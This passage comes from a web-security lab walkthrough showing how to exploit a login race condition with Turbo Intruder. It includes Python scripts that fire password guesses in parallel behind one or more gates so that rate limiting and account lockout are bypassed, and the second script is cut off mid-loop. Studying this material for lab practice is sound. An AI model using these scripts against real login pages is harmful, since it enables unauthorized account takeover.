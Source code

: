   <figcaption style="color: red;">Fig 9: Screenshot shows the success response.</figcaption>
</figure><br>


<hr>

<h3 align="center">
  <span style="color: #ff7043;">
    🔭 The Automated Approach 👉 Turbo Intruder
  </span>
</h3>


🔹This section demonstrates a method to exploit a **race condition** vulnerability in a login page by utilizing [Turbo Intruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack), an advanced HTTP request engine designed for high-speed and parallel attacks.
🔹The provided **Python script** uses Turbo Intruder’s request engine to perform a brute-force attack by sending multiple **login attempts in parallel**. These requests are queued and dispatched simultaneously through a single gate mechanism, leveraging a `single-packet attack` technique to bypass conventional rate limiting and account lockout protections.

```
def queueRequests(target, wordlists):
    # If the target supports HTTP/2, use Engine.BURP2 to trigger the single-packet attack
    # If they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # For more information: https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # Assign a list of candidate payloads from the clipboard
    payloads = wordlists.clipboard  # Ensure you copy a wordlist to your clipboard

    # The 'gate' argument withholds part of each request until openGate is invoked
    # If you see a negative timestamp, the server responded before the request was complete
    for password in payloads:  # Iterating through password wordlist
        engine.queue(target.req % password, gate='race1')  # Injecting the payload into the request

    # Once every 'race1'-tagged request has been queued, send them in sync
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```

### ⌛ Script 👉 Multiple Gates 
```
def queueRequests(target, wordlists):
    # Use HTTP/2 for a single-packet attack
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=5,  # Allow parallel request queuing
        engine=Engine.BURP2
    )
    # Get passwords from clipboard
    passwords = wordlists.clipboard
    # Use multiple gates to avoid Turbo Intruder's 99-request limit
    max_per_gate = 50  # Adjust based on testing
    gate_index = 1
    current_gate = "race" + str(gate_index)  # Fixed string formatting
    count = 0
    for password in passwords:
        engine.queue(target.req % password, gate=current_gate)
        count += 1
        # If we reach the max_per_gate limit, switch to a new gate
        if count % max_per_gate == 0:
```